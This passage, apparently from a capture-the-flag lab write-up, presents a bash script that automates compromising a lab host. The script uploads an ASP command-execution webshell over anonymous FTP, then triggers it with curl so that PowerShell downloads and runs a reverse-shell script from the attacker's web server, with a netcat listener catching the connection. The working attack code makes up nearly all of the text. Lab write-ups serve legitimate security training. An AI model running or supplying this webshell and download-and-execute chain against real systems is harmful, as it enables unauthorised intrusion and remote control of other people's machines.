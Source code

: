 Because the connection sometimes dies, and I like to be able to pick up
where I left off, I scripted the shell process. I give a port and my
current IP, and it will start the python webserver, upload the webshell
over ftp, use curl to trigger the webshell to request my shell, and then
kill the webserver. All I have to do is open nc in another window to
catch the callback.



      1 #!/bin/bash
      2 
      3 function usage {
      4     echo "Usage: $0 [ip] [port] [powershell file]"
      5     echo "Include ip and port for webserver, and path to file to iex on server"
      6     exit
      7 }
      8 
      9 if [ "$#" -ne 3 ]; then
     10     usage
     11 fi;
     12 
     13 ip=$1
     14 port=$2
     15 file=$3
     16 
     17 if [ ! -f ${file} ]; then
     18     echo "[-] ${file} not found"
     19     usage
     20 fi;
     21 
     22 # update ip in reverse shell
     23 sed -i "s/-IPAddress 10.10.14.[[:digit:]]\{1,3\}/-IPAddress ${ip}/" ${file}
     24 
     25 echo "[*] Starting Web Server on port $port"
     26 python3 -m http.server $port &
     27 WEB_PID=$!
     28 
     29 sleep 1  # let webserver start
     30 echo [*] Restarting IPsec VPN
     31 ipsec restart 2>/dev/null
     32 sleep 1  # wait for restart to finish
     33 ipsec up conceal | grep successfully || echo "Failed to connect IPSec VPN"
     34 
     35 echo [*] FTPing webshell to target
     36 echo '<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>' > /tmp/cmd.asp
     37 ftp -n 10.10.10.116 <<End-of-Session >/dev/null
     38 user anonymous pass 
     39 del 0xdf.asp
     40 put /tmp/cmd.asp 0xdf.asp
     41 bye
     42 End-of-Session
     43 rm /tmp/cmd.asp
     44 
     45 echo "[*] Triggering shell. Webserver should be listening on 80"
     46 curl "http://10.10.10.116/upload/0xdf.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://${ip}/${file}%27)" &
     47 
     48 sleep 4  # wait for target to connect to webserver
     49 echo "[*] Killing web server"
     50 kill -9 $WEB_PID
     51 echo "[*] Should have shell on netcat"
     52 
     53 sleep 5 # wait for error messages on failure
